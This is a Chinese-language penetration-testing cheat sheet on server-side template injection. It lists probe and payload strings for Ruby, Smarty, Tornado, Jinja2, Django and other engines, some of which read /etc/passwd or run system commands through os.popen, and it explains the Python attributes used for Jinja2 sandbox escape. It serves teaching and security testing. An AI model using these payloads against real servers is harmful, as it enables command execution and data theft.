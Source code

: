 模版注入
========================================

简介
----------------------------------------
模板引擎用于使用动态数据呈现内容。此上下文数据通常由用户控制并由模板进行格式化，以生成网页、电子邮件等。模板引擎通过使用代码构造（如条件语句、循环等）处理上下文数据，允许在模板中使用强大的语言表达式，以呈现动态内容。如果攻击者能够控制要呈现的模板，则他们将能够注入可暴露上下文数据，甚至在服务器上运行任意命令的表达式。

测试方法
----------------------------------------
- 确定使用的引擎
- 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
- 需找攻击面，尝试攻击

测试用例
----------------------------------------
- 简单的数学表达式，``{{ 7+7 }} => 14``
- 字符串表达式 ``{{ "ajin" }} => ajin``
- Ruby
    - ``<%= 7 * 7 %>``
    - ``<%= File.open('/etc/passwd').read %>``
- Java
    - ``${7*7}``
- Twig
    - ``{{7*7}}``
- Smarty
    - ``{php}echo `id`;{/php}``
- AngularJS
    - ``$eval('1+1')``
- Tornado
    - 引用模块 ``{% import module %}``
    - => ``{% import os %}{{ os.popen("whoami").read() }}``
- Flask/Jinja2
    - ``{{ config.items() }}``
    - ``{{''.__class__.__mro__[-1].__subclasses__()}}``
- Django
    - ``{{ request }}``
    - ``{% debug %}``
    - ``{% load module %}``
    - ``{% include "x.html" %}``
    - ``{% extends "x.html" %}``

目标
----------------------------------------
- 创建对象
- 文件读写
- 远程文件包含
- 信息泄漏
- 提权

相关属性
----------------------------------------

``__class__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中的新式类（即显示继承object对象的类）都有一个属性 ``__class__`` 用于获取当前实例对应的类，例如 ``"".__class__`` 就可以获取到字符串实例对应的类

``__mro__`` 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python中类对象的 ``__mro__`` 属性会返回一个tuple对象，其中包含了当前类对象所有继承的基类，tuple中元素的顺序是MRO（Method Resolution Order） 寻找的顺序。

``__globals__``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
保存了函数所有的所有全局变量，在利用中，可以使用 ``

``__subclasses__()``
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python的新式类都保留了它所有的子类的引用，``__subclasses__()`` 这个方法返回了类的所有存活的子类的引用（是类对象引用，不是实例）。

因为python中的类都是继承object的，所以只要调用object类对象的 ``__subclasses__()`` 方法就可以获取想要的类的对象。

参考链接
----------------------------------------
- `服务端模版注入 <https://zhuanlan.zhihu.com/p/28823933>`_
- `用Python特性任意代码执行 <http://blog.knownsec.com/2016/02/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/>`_
